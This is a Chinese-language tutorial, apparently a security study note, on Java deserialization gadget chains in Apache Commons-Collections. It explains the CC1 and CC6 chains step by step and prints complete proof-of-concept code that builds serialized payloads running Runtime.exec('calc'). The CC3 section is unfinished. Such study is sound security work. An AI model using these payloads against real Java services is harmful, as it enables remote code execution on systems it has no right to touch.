





## 基础知识

假设某服务器接收java字节码并使用`ObjectInputStream.readObject`方法进行反序列化，我们将包含执行命令代码的Test类序列化后直接传给服务器，这时服务器上并不会触发命令，而是报错，因为会找不到Test类，所以想要触发命令我们就需要找服务器上存在的类，如何通过存在的类在反序列化的时触发命令?

**如果反序列化的类定义了`readObject`方法，在服务器上执行`ObjectInputStream.readObject`时，会自动调用反序列化类中的`readObject`方法，更进一步的，如果反序列化类的`readObject`方法中执行了该类成员变量的某些方法，而这些成员变量是可控的，一个反序列化利用或许就出现了**。在`readObject`反序列化中有个重要利用链就是Commons-Collections组件的利用链，该组件是各种中间件必用的组件，利用的非常广泛。

先看下CommonsCollections链中几个关键的类，这几个类就可以实现任意任意类和方法的调用，都实现了`Transformer`接口，该接口就一个`transform`方法，我们重点关注这几个实现类的`transform`方法的逻辑。

### ConstantTransformer

构造方法作用就是将传入的对象保存为一个常量，调用实例的transform方法就返回该常量。

```java
private final Object iConstant;

public ConstantTransformer(Object constantToReturn) {
        this.iConstant = constantToReturn;
    }

public Object transform(Object input) {
    return this.iConstant;
}
```

### InvokerTransformer

主要作用是通过反射调用传入对象的方法

```java
public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
    this.iMethodName = methodName;
    this.iParamTypes = paramTypes;
    this.iArgs = args;
}

public Object transform(Object input) {
        if (input == null) {
            return null;
        } else {
            try {
                Class cls = input.getClass();
                Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
                return method.invoke(input, this.iArgs);
            }
            ......
        }
    }
```

### ChainedTransformer

实例化这个类需要传入`Transformer`的数组，调用这个类的`transform`方法就会遍历数组中每个元素的`transform`方法，每次`transform`方法返回的对象会作为下一个`transform`方法的输入

```java
public ChainedTransformer(Transformer[] transformers) {
    this.iTransformers = transformers;
}

public Object transform(Object object) {
    for(int i = 0; i < this.iTransformers.length; ++i) {
        object = this.iTransformers[i].transform(object);
    }

    return object;
}
```

### 合并

现在我们将上面三个类串起来，写一个执行命令的简单例子，创建一个`Transformer`数组，将Runtime对象传入`ConstantTransformer`作为第一个元素，通过`InvokerTransformer`调用`Runtime`实例的`exec`方法放在第二个元素，然后将`Transformer`数组传入`ChainedTransformer`构造方法，最后调用其`transform`方法就可以触发命令。



其实`chainedTransformer`调用过程和`object.xxx().yyy().zzz()`是一样的，进一步将上面`Runtime.getRuntime()`改为反射的写法

为什么Runtime.getRuntime()需要进一步修改为反射的写法？

> Java中不是所有对象都支持序列化，待序列化的对象和所有它使用的内部属性对象，必须都实现了 java.io.Serializable 接口。而我们最早传给ConstantTransformer的是Runtime.getRuntime() ，Runtime类是没有实现 java.io.Serializable 接口的，所以不允许被序列化。
>
>  所以需要将Runtime.getRuntime() 换成 Runtime.class ，前者是一个java.lang.Runtime 对象，后者是一个 java.lang.Class 对象。Class类有实现Serializable接口，所以可以被序列化。

```java
Transformer[] transformers = {
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{0, new Object[0]}),
    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};

ChainedTransformer chainedTransformer = new ChainedTransformer(transformer);
chainedTransformer.transform(null);
```

其实等价于`Runtime.class.getMethod("getRuntime").invoke(null,null).exec("calc")`，现在我们可以通过`chainedTransformer`的`transform`方法到命令执行了，那么如何从`readObject`到`transform`函数呢？这就是`CommonsCollections`链的意义了

## CommonsCollections1

### LazyMap

上面我们是手写触发`chainedTransformer`的`transform`方法，一般不会有代码直接写`chainedTransformer.transform(null)`，所以我们需要找到更加常用且有调用`transform`的方法，LazyMap正好符合要求，看下LazyMap的关键源码

```java
public static Map decorate(Map map, Transformer factory) {
        return new LazyMap(map, factory);
    }

protected LazyMap(Map map, Transformer factory) {
        super(map);
        if (factory == null) {
            throw new IllegalArgumentException("Factory must not be null");
        } else {
            this.factory = factory;
        }
    }

public Object get(Object key) {
        if (!super.map.containsKey(key)) {
            Object value = this.factory.transform(key);
            super.map.put(key, value);
            return value;
        } else {
            return super.map.get(key);
        }
    }
```

LazyMap的`decorate`方法会将传入的`Transformer`保存为`factory`，当从`map`中不包含get的key时，会触发`factory`的`transform`方法。

所以我们将一个空的map和执行命令的`chainedTransforme`传入LazyMap的`decorate`，再调用该LazyMap的`get`方法（key为任意）即可触发`transform`



接着进一步寻找实现了`readObject`，并且通过`readObject`能触发到LazyMap的`get`方法，这样就可以构成一个反序列化利用链了。AnnotationInvocationHandler类正好可以满足这样的要求。

### AnnotationInvocationHandler

先看下AnnotationInvocationHandler类（JDK8的版本要<1.8.0_71）关键的几个方法

```java
// 构造函数
AnnotationInvocationHandler(Class<? extends Annotation> var1, Map<String, Object> var2) {
        Class[] var3 = var1.getInterfaces();
        if (var1.isAnnotation() && var3.length == 1 && var3[0] == Annotation.class) {
            this.type = var1;
            this.memberValues = var2;  // 保存传进来的Map实例
        } else {
            throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
        }
    }

private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        var1.defaultReadObject();
        AnnotationType var2 = null;

        try {
            var2 = AnnotationType.getInstance(this.type);
        } catch (IllegalArgumentException var9) {
            throw new InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map var3 = var2.memberTypes();
        Iterator var4 = this.memberValues.entrySet().iterator();  // 如果设置了动态代理，这里会先调用memberValues的invoke方法
		......

    }

public Object invoke(Object var1, Method var2, Object[] var3) {
        String var4 = var2.getName();
        Class[] var5 = var2.getParameterTypes();
        ......
            switch(var7) {
            case 0:
                return this.toStringImpl();
            case 1:
                return this.hashCodeImpl();
            case 2:
                return this.type;
            default:
                Object var6 = this.memberValues.get(var4);  // 这里触发get方法
                ......
            }
        }
    }


```

其中的`invoke`方法会调用到`memberValues`的`get`方法，而`memberValues`可通过构造函数赋值为LazyMap，所以能调用到`Invoke`就可以触发，要怎么通过`readObject`方法调用到`invoke`方法呢？可以通过java对象代理。

java提供了`newProxyInstance`创建对象代理的方式：`newProxyInstance(ClassLoader loader,  Class<?>[] interfaces, InvocationHandler h)`，第1个参数是`ClassLoader`，默认即可；第2个参数是我们需要代理的对象集合；第3个参数为实现了`InvocationHandler`接口的实例，里面包含了具体代理的逻
辑，`AnnotationInvocationHandler`类正好实现了`InvocationHandler`和`Serializable`接口，可以作为第3个参数。

被对象代理设置的对象，调用其任意方法时，都会先调用代理类，也就是`InvocationHandler`实例的`invoke`方法。

上方代码`readObject`方法的第23行，在传入的`this.memberValues`有设置对象代理时，调用其任意方法都会触发其代理类的`invoke`方法，代理类可以设置`AnnotationInvocationHandler`，在`invoke`中就可以触发`get`方法了，这样我们打通了整个利用链。

```java
/** ysoserial的Gadget chain
      ObjectInputStream.readObject()
         AnnotationInvocationHandler.readObject()
            Map(Proxy).entrySet()
               AnnotationInvocationHandler.invoke()
                  LazyMap.get()
                     ChainedTransformer.transform()
                        ConstantTransformer.transform()
                        InvokerTransformer.transform()
                           Method.invoke()
                              Class.getMethod()
                        InvokerTransformer.transform()
                           Method.invoke()
                              Runtime.getRuntime()
                        InvokerTransformer.transform()
                           Method.invoke()
                              Runtime.exec()
*/
```

### poc

cc1完整poc如下

```java
public static void main(String[] args) throws Exception {
        Transformer[] transformers = {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{0, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        // 将一条空的fakeTransformers传给ChainedTransformer，避免本地调试时触发命令
        Transformer[] fakeTransformers = new Transformer[] {new
                ConstantTransformer(1)};
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);
        final Map innerMap = new HashMap();
        final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

        // 获取构造函数
        Constructor<?> constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);

        // 创建代理类
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Deprecated.class, lazyMap);
        // 动态代理，创建lazyMap实例
        Map map1 = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), LazyMap.class.getInterfaces(), invocationHandler);
        // 创建被反序列化的AnnotationInvocationHandler类
        Object aa = constructor.newInstance(Override.class, map1);
        // 序列化前再将真正触发命令的transformers设置进去
        Field iTransformers = ChainedTransformer.class.getDeclaredField(("iTransformers"));
        iTransformers.setAccessible(true);
        iTransformers.set(transformerChain,transformers);

        // 序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(aa);
        oos.close();
        // 反序列化
        ObjectInputStream in = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
        Object o = in.readObject();
        in.close();
    }
```



## CommonsCollections6

上面CC1只有在jdk版本低于1.8.0_71才能触发，因为新版本`AnnotationInvocationHandler#readObject`逻辑变了。我们要解决jdk高版本利用的问题，其实就是要寻找其他调用`LazyMap#get()`的地方，`TideMapEntry#hashCode`方法正好有调用。

### TideMapEntry

先看下TideMapEntry的几个关键方法

```java
public TiedMapEntry(Map map, Object key) {
        this.map = map;
        this.key = key;
    }

public Object getValue() {
        return this.map.get(this.key);
    }

public int hashCode() {
    Object value = this.getValue();
    return (this.getKey() == null ? 0 : this.getKey().hashCode()) ^ (value == null ? 0 : value.hashCode());
}
```

我们可以通过构造方法将LazyMap传入`this.map`，然后通过`getValue`方法可以触发其`get`方法，而`hashCode`又有调用到`getValue`，所以我们需要继续找一个类，该类的`readObject`可以通到`TideMapEntry#hashCode`。

### HashMap

```java
private void readObject(java.io.ObjectInputStream s)
        throws IOException, ClassNotFoundException {
        ......
		for (int i = 0; i < mappings; i++) {
                @SuppressWarnings("unchecked")
                    K key = (K) s.readObject();
                @SuppressWarnings("unchecked")
                    V value = (V) s.readObject();
                putVal(hash(key), key, value, false, false);  // 调用hash方法
        }
    }

static final int hash(Object key) {
        int h;
        return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
    }
```

HashMap的`readObject`会调用`hash`方法，hash方法内触发`key`的`hashCode`，如果我们`key`传入`TideMapEntry`，就可以触发`TideMapEntry#hashCode`了，其实到这里从`readObject`到`transform`就走通了，算是一个简化版的CC6链，Ysoserial中CC6在此基础上加了层`HashSet#readObject`。

### HashSet

`HashSet#readObject`会调用HashMap的`put`方法，正好可以跟上面链接起来

```java
private void readObject(java.io.ObjectInputStream s)
    throws java.io.IOException, ClassNotFoundException {
    ......
    	// Create backing HashMap
        map = (((HashSet<?>)this) instanceof LinkedHashSet ?
               new LinkedHashMap<E,Object>(capacity, loadFactor) :
               new HashMap<E,Object>(capacity, loadFactor));

        // Read in all elements in the proper order.
        for (int i=0; i<size; i++) {
            @SuppressWarnings("unchecked")
                E e = (E) s.readObject();
            map.put(e, PRESENT);
        }
    }

// HashMap#put
public V put(K key, V value) {
        return putVal(hash(key), key, value, false, true);
    }
```

### poc

CC6利用链和poc如下

```java
/*
   Gadget chain:
       java.io.ObjectInputStream.readObject()
            java.util.HashSet.readObject()
                java.util.HashMap.put()
                java.util.HashMap.hash()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
                        org.apache.commons.collections.map.LazyMap.get()
                            org.apache.commons.collections.functors.ChainedTransformer.transform()
                            org.apache.commons.collections.functors.InvokerTransformer.transform()
                            java.lang.reflect.Method.invoke()
                                java.lang.Runtime.exec()
*/
public static void main(String[] args) throws Exception {
        Transformer[] transformers = {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{0, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        Transformer[] fakeTransformers = new Transformer[] {new
                ConstantTransformer(1)};
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);
    
        final Map innerMap = new HashMap();
        final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "test");

        HashSet hashSet = new HashSet(1);
        hashSet.add(tiedMapEntry);
    	// 由于创建hashset后，会自动给lazyMap添加一个key-value，所以要remove掉这个键值对
		// 以保证lazyMap.get时，map.containsKey(key) == false，从而进入transform函数
        lazyMap.clear();  
    
        Field iTransformers = ChainedTransformer.class.getDeclaredField(("iTransformers"));
        iTransformers.setAccessible(true);
        iTransformers.set(transformerChain,transformers);

        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream("serialize.ser"));
        out.writeObject(hashSet);
        ObjectInputStream in = new ObjectInputStream(new FileInputStream("serialize.ser"));
        in.readObject();
    }
```

第34行调用一次`clear()`是因为`hashSet.add`会将`key/value` `put`到LazyMap中，若不`clear()`会导致反序列化时LazyMap包含该`key`，从而进不到if语句内，无法触发`transform`



这条链在jdk高版本也可以触发



## CommonsCollections3

先贴下CC3的利用链

```java
/*
   Gadget chain:
      ObjectInputStream.readObject()
         AnnotationInvocationHandler.readObject()
            Map(Proxy).entrySet()
               AnnotationInvocationHandler.invoke()
                  LazyMap.get()
                     ChainedTransformer.transform()
                        ConstantTransformer.transform()  // 上面和CC1相同
                        InstantlateTransformer.transform()
                        newinstance()
                        TrAXFllter#TrAXFllter()
                        Templateslmpl.newTransformer()
                        Templateslmpl.getTransletinstance()
                        Templateslmpl.defineTransletClasses()
                        newinstance()
                        Runtlme.exec()
*/
```

CC3的前半截调用过程和CC1一样，区别就是CC3用`InstantiateTransformer`代替了CC1的`InvokerTransformer`，并且通过字节码的方式触发，其关键点就在`TemplatesImpl`和`TrAXFilter`类

### TrAXFilter


### TemplatesImpl


## 参考

[commons-collections利用链学习总结](https://www.cnblogs.com/bitterz/p/15035581.html)

[Java安全漫谈 系列](https://github.com/phith0n/JavaThings)

[ysoserial项目](https://github.com/frohoff/ysoserial)
